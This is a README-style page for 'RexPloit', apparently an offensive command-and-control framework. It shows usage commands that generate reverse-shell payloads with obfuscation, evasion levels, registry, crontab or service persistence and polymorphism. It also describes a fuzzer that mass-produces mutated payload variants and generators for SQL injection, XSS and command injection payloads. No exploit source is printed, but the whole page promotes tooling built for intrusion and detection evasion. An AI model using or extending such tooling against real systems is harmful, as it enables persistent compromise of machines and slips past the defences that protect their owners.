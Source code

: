 # RexPloit Framework - Enhanced Capabilities Demonstration

## Overview

RexPloit has been successfully transformed into a comprehensive, professional-grade C2 framework with advanced automation capabilities. This document demonstrates the enhanced features and capabilities.

## New Enhanced Commands

### 1. Advanced Payload Generation

#### Basic Usage:
```bash
# Generate basic payload
python3 unified_rexploit.py payload --type python --lhost 127.0.0.1 --lport 4444

# Generate advanced payload with evasion
python3 unified_rexploit.py payload --type python_advanced --lhost 127.0.0.1 --lport 4444 \
  --obfuscate --evasion-level advanced --persistence registry --polymorphic
```

#### Advanced Features:
- **5 Payload Types**: python, bash, powershell, php, perl
- **5 Advanced Types**: python_advanced, powershell_advanced, web_advanced, staged_advanced, polymorphic
- **3 Evasion Levels**: basic, medium, advanced
- **4 Persistence Types**: none, registry, crontab, service
- **3 Execution Methods**: subprocess, eval, system
- **3 Encoding Types**: base64, hex, rot13

### 2. Payload Fuzzing System

```bash
# Generate 50 fuzzing variants
python3 unified_rexploit.py fuzz --base-type python --lhost 127.0.0.1 --lport 4444 --iterations 50
```

#### Fuzzing Features:
- **5 Mutation Strategies**: character_substitution, encoding_mutation, structure_mutation, semantic_mutation, obfuscation_mutation
- **Automated Variant Generation**: Up to 200+ variants per payload
- **Metadata Tracking**: Each variant tracked with applied mutations and checksums

### 3. Injection Payload Generation

```bash
# Generate SQL injection payloads
python3 unified_rexploit.py injection-payloads --vector sql_injection

# Available vectors
python3 unified_rexploit.py injection-payloads --vector xss_injection
python3 unified_rexploit.py injection-payloads --vector command_injection
```
